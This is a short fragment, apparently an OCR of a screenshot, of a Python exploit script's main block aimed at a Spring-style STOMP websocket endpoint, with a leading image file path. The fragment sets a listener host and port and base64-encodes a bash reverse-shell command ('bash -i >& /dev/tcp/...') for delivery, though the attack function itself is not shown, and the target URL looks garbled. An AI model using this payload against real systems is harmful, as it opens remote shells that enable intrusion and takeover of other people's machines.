 ```python


if __name__ == "__main__":
    url = 'http://1:8080/gs-guide-websocket'
    subscribe_dest = '/topic/greetings'
    send_dest = '/app/hello'
    lhost = '127.0.0.1'
    lport = '9999'
    command = base64.b64encode('bash -i >& /dev/tcp/{}/{} 0>&1'.format(lhost,lport).encode('utf-8'))
    main()
```
